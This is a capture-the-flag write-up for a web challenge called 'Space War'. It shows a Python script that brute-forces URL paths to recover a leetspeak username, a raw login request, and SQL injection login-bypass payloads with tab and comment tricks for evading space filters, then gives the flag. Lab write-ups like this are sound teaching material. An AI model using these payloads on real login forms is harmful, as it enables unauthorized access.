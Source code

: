 # Space War
## Description
> I started war as i don't like EQUALity, i lost, they cut every LETTER of my name and sent them to different ROUTES. Wanna know my name in L33t???

Accessing the link provided, we came across a login page

![image](https://github.com/user-attachments/assets/879d0c69-81d6-4dbf-97de-4762fd2e3d8d)

When entering any combination of credentials, we get the following feedback

> Ummmm, I GUESS, you still don’t know my name.

By gathering the information from the description, and from this message, we can infer that it is necessary to guess the username, which is related in some way to the words EQUAL, LETTER and ROUTES.

With this, we can assume that there are routes that define the username, letter by letter (or you can find a route named K in a directory bruteforcing and infer from there).

![image](https://github.com/user-attachments/assets/5b1a5d4f-3f12-42f6-b46b-e104164c3e02)

This induces us to continue to discover letter by letter of the username. To do this, you can create a script in a language of your choice, or use Burp Intruder. The Intruder wordlist should contain letters (a-zA-Z) and numbers (0–9), as the username is in leet.

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```
After finishing this guessing process, we discovered the name Kur0s4k1

![image](https://github.com/user-attachments/assets/ea019336-1120-4531-a2e9-d46eb9081a73)

We return to the login page and try any password

> Invalid credentials.

And we discovered the existence of a SQL Injection in the password field.

```
POST /login HTTP/1.1
Host: 34.132.132.69:8005
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.132.132.69:8005
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7
Referer: http://34.132.132.69:8005/
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt; q=0.9,en-US; q=0.8,en; q=0.7
Cookie: session=.eJztkLFqw0AMhl9FuSWL8QNkbKGQoWPpUEI5--RY5CwZSRdqQt6951Bo6dCxSzsJoV_6v1-X0I_RX0cyF13C7uUSemFH9rALdzn2p1xHmOBZNG1CE4qh1tHTWq7NV_Ue-sgsDtGs7sAiBYihV4xOfARRmFUmuTUfa-DVHfBtzkJuYNgXJV_gXDKjxo4yOaG1jwvMRWcxBDJwWS-dKSGMmOehZIicQNFmYaMuVxUPolM1Fm4_qe-rWyf-DfyPxOyi4c_JthOYqC4N7CFR4q1D4YRqvvquGVp4QMwwKOKKF-0EE1aqxccad_P_6Rv4EZ0cp99_9uH6DvoJXNM.ZX3H3w.v_3pIJFrUC7Mn4fZ6utF2pIzhMg
Connection: close

username=Kur0s4k1&password="+or+1=1+--+
```

## Payload 
- ```"+or+1=1+--+```
- ```%09OR%091=1;--%09-``` (%09 is [TAB]) <br>

That way we can bypass the login and get the flag. There are many ways in which we can bypass spaces, replace them with ```/**/``` or ```[TAB]```(what I did here) etc.

## Flag
```flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}```

